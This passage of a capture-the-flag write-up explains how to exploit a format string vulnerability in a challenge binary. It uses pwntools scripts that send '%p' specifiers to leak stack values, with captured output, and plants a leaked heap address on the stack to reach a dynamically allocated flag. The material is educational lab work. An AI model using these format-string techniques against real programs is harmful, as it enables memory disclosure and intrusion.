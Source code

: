 Each value correspond to a format specifier we provided to the program. Of course, it will print only what is in the stack, since that's all what he has access to (Or of course from the heap which we will talk about later). So at some point, no matter how much format specifier we add, it will prints the same values.

But, the interesting part is that we can also write in the stack when exploiting the format string vulnerability :

```py
...
p.sendline(b'AAAAAA %p %p %p %p %p %p %p %p %p %p %p %p')
...
```

```
[+] Starting local process './chall': pid 66962
b'This may help later : 0x56d1c1a0\nName : '
[*] Switching to interactive mode
[*] Process './chall' stopped with exit code 0 (pid 66962)
Hi, AAAAAA 0x32 0xf7e1d620 0x565ee259 (nil) (nil) 0x41410000 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025
[*] Got EOF while reading in interactive
```

More speceficaly :

```
Name : AAAAAA - %p - %p - %p - %p - %p - %p - %p
Hi, AAAAAA - 0x32 - 0xf7e1d620 - 0x565e2259 - (nil) - (nil) - 0x41410000 - 0x41414141
```

Note how the `AAAAAA` string is printed back, and as we can see in the 7th value, `0x41414141` a hex representation of it (is has also a part of it in the 6th value as well).

This give us a decent knowledge to solve the challenge if the flag was stored in the stack. But how about the heap ? Since the flag string is dynamically allocated in the program ?

Well, we can do a trick for that.

### The Trick

In order for us to solve the challenge, the idea is actually to make a passage from our input to the heap, passing by the stack.

To do that, the idea is actually storing the address of the flag in the stack. This way we can access it, and by a redirection, access the flag.

Remember the `AAAAAA` string earlier ? well our address will take its place (Note the extraction of the address, since it will change on each execution) :

```py
#! /usr/bin/python3

from pwn import *

HOST = ''
PORT = ''

p = process('./chall')

# [+] Starting local process './chall': pid 24502
# b'This may help later : 0x570a31a0\nName : '
address = p.recv().split()[5]
addressBytesInStack = p32(int(str(address)[2:-1], 16))

p.sendline(addressBytesInStack + b' %p %p %p %p %p %p %p')

p.interactive()
```
